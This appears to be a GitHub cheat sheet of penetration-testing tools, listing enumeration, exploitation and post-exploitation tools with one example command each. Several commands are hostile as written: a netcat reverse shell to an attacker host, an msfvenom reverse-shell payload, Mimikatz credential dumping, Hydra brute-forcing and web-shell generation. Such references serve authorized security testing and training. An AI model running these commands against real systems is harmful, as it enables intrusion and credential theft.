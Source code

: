 # Tools

## Enumeration Tools

These tools are essential for gathering information about the target system, such as open ports, services, and potential vulnerabilities.

- **[Nmap](https://nmap.org/)**: A powerful network scanning tool used to discover hosts, services, and vulnerabilities.
  - Command: `nmap -sC -sV -oA scan_results <target_ip>`
  
- **[Nikto](https://cirt.net/Nikto2)**: A web server scanner that identifies various vulnerabilities like outdated software, security misconfigurations, and common web server issues.
  - Command: `nikto -h <target_ip>`

- **[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)/[Dirsearch](https://github.com/maurosoria/dirsearch)**: Tools used to perform directory and file brute-forcing on web servers.
  - Command: `dirb http://<target_ip>/`

- **[Gobuster](https://github.com/OJ/gobuster)**: A tool for directory and DNS busting, often used for finding hidden directories or subdomains.
  - Command: `gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt`

- **[Enum4linux](https://github.com/CiscoCXSecurity/enum4linux)**: A Linux tool used to gather information from Windows machines using SMB.
  - Command: `enum4linux -a <target_ip>`

- **[SMBclient](https://linux.die.net/man/1/smbclient)**: A client for accessing shared folders on Windows machines via SMB.
  - Command: `smbclient //target_ip/share -U username`

- **[Netcat](https://nmap.org/ncat/)**: A versatile networking tool used for connecting to remote systems and debugging or scanning networks.
  - Command: `nc -lvp 4444` (for listening on a local port)

- **[Netdiscover](https://github.com/alexxy/netdiscover)**: A tool for discovering hosts in a local network via ARP requests.
  - Command: `netdiscover -r 192.168.1.0/24`

- **[WhatWeb](https://github.com/urbanadventurer/WhatWeb)**: A web application fingerprinting tool to identify technologies and services in use on web servers.
  - Command: `whatweb <target_ip>`

## Exploitation Tools

These tools are used for exploiting known vulnerabilities or misconfigurations in systems and applications.

- **[Metasploit Framework](https://www.metasploit.com/)**: A powerful exploitation framework used for automating the process of exploiting vulnerabilities.
  - Command: `msfconsole`

- **[SQLmap](http://sqlmap.org/)**: A tool for automating SQL injection and database takeover.
  - Command: `sqlmap -u "http://<target_ip>/page?id=1" --dbs`

- **[Hydra](https://github.com/vanhauser-thc/thc-hydra)**: A tool used for brute-force attacks against services like SSH, FTP, HTTP, and more.
  - Command: `hydra -l <username> -P <password_list> ssh://<target_ip>`

- **[John the Ripper](https://www.openwall.com/john/)**: A password cracking tool used to break hashes from various services (including Linux, Windows, and more).
  - Command: `john --wordlist=<password_list> <hash_file>`

- **[Mimikatz](https://github.com/gentilkiwi/mimikatz)**: A tool for extracting passwords and other credentials from Windows systems, including Kerberos tickets and clear-text passwords.
  - Command: `mimikatz.exe sekurlsa::logonPasswords`

- **[MSFvenom](https://www.metasploit.com/)**: A part of the Metasploit framework used to generate payloads for various platforms.
  - Command: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > payload.exe`

- **[Responder](https://github.com/SpiderLabs/Responder)**: A tool used to poison network traffic and capture login credentials via LLMNR, NBT-NS, and DNS poisoning.
  - Command: `responder -I eth0`

- **[Empire](https://github.com/EmpireProject/Empire)**: A post-exploitation framework that includes PowerShell agents for lateral movement and persistence.
  - Command: `python2 empire`

- **[BeEF (Browser Exploitation Framework)](https://github.com/beefproject/beef)**: A tool used to launch attacks from the browser context by exploiting vulnerabilities in web applications.
  - Command: `./beef`

## Post-Exploitation Tools

These tools are used after successful exploitation to maintain persistence, escalate privileges, and gather further information from compromised systems.

- **[Netcat](https://nmap.org/ncat/)**: Can also be used during post-exploitation for creating reverse shells and tunneling data.
  - Command: `nc -e /bin/bash <attacker_ip> <port>`

- **[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)**: A collection of PowerShell scripts for post-exploitation activities, including privilege escalation, credential dumping, and more.
  - Command: `import-module PowerSploit`

- **[Weevely](https://github.com/epinna/weevely3)**: A web shell that allows remote access and manipulation of compromised web servers.
  - Command: `weevely generate <password> <webshell_location>`

- **[Powershell Empire](https://github.com/EmpireProject/Empire)**: A post-exploitation tool using PowerShell for pivoting, credential harvesting, and data exfiltration.
  - Command: `python2 empire`

- **[TheFatRat](https://github.com/Screetsec/TheFatRat)**: A tool for creating various types of malicious payloads, which can include reverse shells, Trojans, and more.
  - Command: `./setup.sh`

- **[Chisel](https://github.com/jpillora/chisel)**: A fast TCP/UDP tunnel over HTTP, useful for tunneling traffic through firewalls.
  - Command: `./chisel client <target_ip>:<port> <local_port>:<remote_port>`

- **[PrivescCheck](https://github.com/itm4n/PrivescCheck)**: A tool for checking possible privilege escalation vectors on Windows systems.
  - Command: `PrivescCheck.exe`

- **[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**: A Linux privilege escalation script that checks for common misconfigurations and vulnerabilities.
  - Command: `./linpeas.sh`

- **[LinEnum](https://github.com/rebootuser/LinEnum)**: A script that automates the process of enumerating system information and potential privilege escalation vectors in Linux environments.
  - Command: `./linenum.sh`

